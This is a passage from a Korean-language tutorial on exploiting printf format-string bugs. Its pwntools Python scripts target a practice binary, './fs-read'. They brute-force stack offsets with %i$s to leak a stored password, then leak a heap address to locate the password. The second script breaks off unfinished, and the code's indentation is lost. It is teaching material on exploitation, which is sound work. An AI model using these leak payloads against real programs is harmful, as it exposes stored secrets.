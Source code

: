 **`stack_password`**는 로컬 변수이기 때문에 스택에 저장됩니다. 따라서 printf를 악용하여 스택의 내용을 보여주는 것으로 충분합니다. 이는 스택에서 비밀번호를 누출하기 위해 처음 100 위치를 BF하는 익스플로잇입니다:
```python
from pwn import *

for i in range(100):
print(f"Try: {i}")
payload = f"%{i}$s\na".encode()
p = process("./fs-read")
p.sendline(payload)
output = p.clean()
print(output)
p.close()
```
이미지에서 `10번째` 위치에서 스택에서 비밀번호를 유출할 수 있음을 볼 수 있습니다:

<figure><img src="../../.gitbook/assets/image (1234).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1233).png" alt="" width="338"><figcaption></figcaption></figure>

### 데이터 읽기

`%s` 대신 `%p`를 사용하여 동일한 익스플로잇을 실행하면 `%25$p`에서 스택에서 힙 주소를 유출할 수 있습니다. 또한, 유출된 주소(`0xaaaab7030894`)를 해당 프로세스의 메모리에서 비밀번호의 위치와 비교하면 주소 차이를 얻을 수 있습니다:

<figure><img src="broken-reference" alt="" width="563"><figcaption></figcaption></figure>

이제 두 번째 포맷 문자열 취약점에서 액세스하기 위해 스택에서 1개의 주소를 제어하는 방법을 찾을 시간입니다:
```python
from pwn import *

def leak_heap(p):
p.sendlineafter(b"first password:", b"%5$p")
p.recvline()
response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
return int(response, 16)

for i in range(30):
p = process("./fs-read")

heap_leak_addr = leak_heap(p)
print(f"Leaked heap: {hex(heap_leak_addr)}")

password_addr = heap_leak_addr - 0x126a

print(f"Try: {i}")
payload = f"%{i}$p|||".encode()
payload += b"AAAAAAAA"

```
